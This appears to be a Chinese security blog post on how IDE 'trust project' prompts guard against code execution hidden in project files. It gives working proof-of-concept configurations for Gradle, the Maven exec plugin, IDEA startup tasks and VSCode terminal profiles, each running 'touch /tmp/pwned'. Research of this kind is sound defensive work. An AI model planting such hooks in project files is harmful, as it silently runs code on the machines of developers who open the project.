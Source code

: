 ```yaml
---
title: 利用项目配置文件进行 RCE - IDE Trust Project 功能探究
date: 2021-10-02 20:43:33
tags: [misc]
---
```


最近发现在打开 IDEA, VSCode 项目时候, 都增加了 "信任此项目的提示". 结合这些 IDE 的特点, 确实可能存在在打开项目时产生 RCE 的风险, 特别是进行代码审计的安全人员, 会经常打开未知的项目. 正常人肯定不会贸然的执行未知的代码, 但是对于打开项目时这个弹出的框框, 可能并不会特别在意. 接下来分析一些通过这些配置来进行 RCE 的方法.  

<!--more-->

![](https://i.loli.net/2021/10/02/ToPQhtryzgDUdCs.png#center)

## IDEA

### Gradle

最先想到的是 java 项目常用的构建工具 gradle. 它的 build 方式不同于 maven 的那种声明式 xml, 而是通过运行一个 build.gradle 脚本, 类似于 python 安装模块时的 setup.py. 我们自然可以通过编写恶意的 build.gradle 脚本来达到 RCE 的目的, 示例如下  

```gradle
plugins {
    id 'java'
}

group 'org.example'
version '1.0-SNAPSHOT'

exec {
    commandLine 'touch', '/tmp/pwned'
}

repositories {
    mavenCentral()
}

dependencies {
    testImplementation 'org.junit.jupiter:junit-jupiter-api:5.7.0'
    testRuntimeOnly 'org.junit.jupiter:junit-jupiter-engine:5.7.0'
}

test {
    useJUnitPlatform()
}
```

其中  
```
exec {
    commandLine 'touch', '/tmp/pwned'
}
```
即是 RCE 的部分, 非常的简单直接  
如果打开 Safe Mode, 是不会运行 build.gradle 的, 保证了用户的安全, 但是如果信任了这个项目, IDEA 就会自动运行 build.gradle  

### Maven

maven 在经过测试后, 似乎 IDEA 并没有真正的运行 `mvn` 命令, 在用户 0-click 的情况下, 似乎只是解析了 pom.xml, 然后下载依赖, 分析 main class, 并没有真正进行 maven 的 lifecycle  
但是如果目标会进行 mvn package 等操作, 我们可以通过 mvn plugin 插件达到 RCE 的目的.  

一个示例如下  
```xml
<plugins>
    <plugin>
    <artifactId>exec-maven-plugin</artifactId>
    <version>3.0.0</version>
    <groupId>org.codehaus.mojo</groupId>
    <executions>
        <execution>
        <id>exec</id>
        <phase>validate</phase>
        <goals>
            <goal>exec</goal>
        </goals>
        </execution>
    </executions>
    <configuration>
        <executable>touch</executable>
        <arguments>
        <argument>/tmp/pwned</argument>
        </arguments>
    </configuration>
    </plugin>
</plugins>
```
`exec-maven-plugin` 是一个现成的执行命令的 mvn plugin, 我们将其制定在 mvn phase = validate 时执行, 这样在目标进行 package 时就会执行 `touch /tmp/pwned` (一个可能受害的场景是打包成 jar 然后复制到 docker 里面运行)  

### IDEA 本身

除了这些常用的 build 工具, IDEA 本身也自带一个 `Startup Task` 功能, 在 `Tools -> Startup Task` 中可以找到, 我们可以自己添加一个 Shell Script 任务. 这些配置会保存在 `.idea/workspace.xml` 中, 并且这个利用方式应该可以给 Jetbrains 全家桶来使用, 会在项目打开时自动运行  

![](https://i.loli.net/2021/10/02/51Hy7hcepfXiGgC.png#center)

## VSCode

VSCode 本身功能较少, 大部分功能其实靠插件来实现, 所以我找到最泛用的是替换默认的 Shell 选项, 在 `.vscode/settings.json` 中添加  

```json
{
    "terminal.integrated.defaultProfile.linux": "bash",
    "terminal.integrated.profiles.linux": {
        "bash": {
            "path": "bash",
            "icon": "terminal-bash",
            "args": ["-c", "touch /tmp/pwned; bash"]
        },
        "zsh": {
            "path": "zsh",
        },
        "fish": {
            "path": "fish"
        },
        "tmux": {
            "path": "tmux",
            "icon": "terminal-tmux"
        },
        "pwsh": {
            "path": "pwsh",
            "icon": "terminal-powershell"
        }
    }
}
```

这样打开 vscode 的终端时, 就会无感执行命令  

## 总结

最后, 这些 IDE 丰富的功能确实留下来非常多的攻击面, 对陌生的项目最好好看看再进行 `Trust`. 不然漏洞还没找到, 自己先被对方反杀了.  